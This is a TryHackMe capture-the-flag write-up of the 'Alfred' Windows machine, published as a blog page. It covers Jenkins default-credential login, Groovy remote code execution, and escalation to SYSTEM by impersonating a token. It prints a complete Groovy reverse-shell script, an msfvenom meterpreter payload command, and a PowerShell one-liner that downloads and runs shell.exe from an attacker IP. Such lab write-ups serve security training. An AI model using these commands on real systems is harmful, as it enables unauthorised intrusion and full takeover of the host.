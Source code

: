 ```yaml
---
layout: solution
category: TryHackMe
contest_code: General
contest_name: General
problem_code: ALFRED
problem_name: Alfred
comments: false
tags: jenkins windows_tokens
date: 2021-08-28
---
```


### A simple nmap scan was conducted on the machine. Turns out it is running a website on port 80 and 8080. Also running RDP on port 3389

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/nmap.png)

‎


### The website on port 80 does not look interesting enough

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web1.png)

‎


### The website on port 8080 was found to have a login page. Default `admin:admin` credentials was used to login into the webpage

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web2.png)

‎


### After logged in as admin, it brought us to tis page, where it can be used to manage Jenkins

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/index.png)

‎


### The script page allowed us to execute remote commands in groovy language. This allows us to perform RCE. 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/command_exec.png)

‎


### A reverse shell groovy script was created and executed to gain a reverse shell
```groovy
String host="10.11.21.149";
int port=9999;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/reverse_shell.png)

<p style="color:orange;">The reverse shell was obtained using Ncat as a listener</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/ncat.png)

<p style="color:orange;">We are able to get out first flag</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/flag1.png)

‎


### It's always good to always to obtain a better shell to get better flexibility . Thus I had attempted to upgrade this simple shell to a meterpreter shell and hosting it on port 80
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.21.149 LPORT=8000 -f exe -o shell.exe
```
<p style="color:orange;">Creating Meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/msfconsole.png)

<p style="color:orange;">Hosting Payload</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/host.png)

‎


### However, this machine has a older version of powershell  which didn't support "Invoke-WebRequest" library (alternative to wget). Thus, another approach was used to download our meterpreter payload and a meterpreter shell was obtained
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.21.149/shell.exe','shell.exe')" && shell.exe
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/download.png)

<p style="color:orange;">Obtaining a reverse meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/meterpreter_shell.png)

‎


### In order to privileges escalate we can impersonate windows tokens.
### Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
### Thus, we can view all the privileges using "whoami /priv". We can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. We can use the incognito module that will allow us to exploit this vulnerability
```
whoami /priv
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/privilege_list.png)

‎


### We can list user token by using the command "list_tokens -u". We are able to see that NT Authority\System token is available. We then can proceed impersonating the token by executing "impersonate_token NT AUTHORITY\SYSTEM" to escalate our privilege

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/escalation.png)

‎


### However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 
### To mitigate from this, we can migrate to a process with correct permissions. The safest process to pick is the services.exe process.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/root.png)

